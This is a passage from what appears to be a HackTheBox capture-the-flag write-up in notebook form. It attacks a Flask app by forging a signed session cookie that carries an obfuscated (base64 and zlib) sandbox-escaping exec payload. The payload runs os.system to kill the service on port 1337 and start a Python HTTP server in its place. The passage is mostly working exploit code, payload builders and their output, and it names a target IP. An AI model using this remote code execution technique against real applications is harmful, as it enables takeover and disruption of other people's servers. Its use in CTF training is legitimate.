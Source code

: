 The bash command we want to execute is ```kill -9 $(lsof -t -i:1337) && python -m SimpleHTTPServer 1337```

At first we test that `lsof` is actually present on the target machine.


```python
test_command(url,'lsof')
```

    Testing if lsof is available.....
    lsof is probably AVAILABLE


We test if we can kill the app that is running on the HTB address.


```python
pl_kill_htb = """import os;os.system('kill -9 $(lsof -t -i:1337)')"""
```

Applying all the procedures at our disposal, we make the HTB app executing such a command.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
try:
    get_response_from_the_app_using_cookie(url,from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_kill_htb)),secret_key,debug_recipe=True))
except:
    print("Probably the app was succesfully killed!\nCheck it at %s"%url)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjd8KwiAUxl/lIIEKKcUuovUoY4iawiGdsaNQRO+e21V3H7/vX3gFLxhjmJ9lrVDoVkjTm2rIgj8wJVBXOIhEJYKqoHA8D8NFctk7xw83xjVMFRcyho+Th1hW8IALCKmN8clSd7pylsIuqLmdhs6FBIzAva18q/huLzb3HMzTad4Wcrm3FPT/zVf+AFbHOvo="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 274
    Probably the app was succesfully killed!
    Check it at http://167.172.53.64:30820


The app has been **succesfully killed** though the service gets restarted quickly.

Notwithstanding we know that we are able to kill it. We now try to kill it and later run a new service on that port.


```python
pl_kill_htb_and_run_new = """import os;os.system('kill -9 $(lsof -t -i:1337) && python -m SimpleHTTPServer 1337')"""
```


```python
try:
    get_response_from_the_app_using_cookie(url,from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_kill_htb)),secret_key,debug_recipe=True))
except:
    print("Check if the Python http service is running at %s"%url)
```
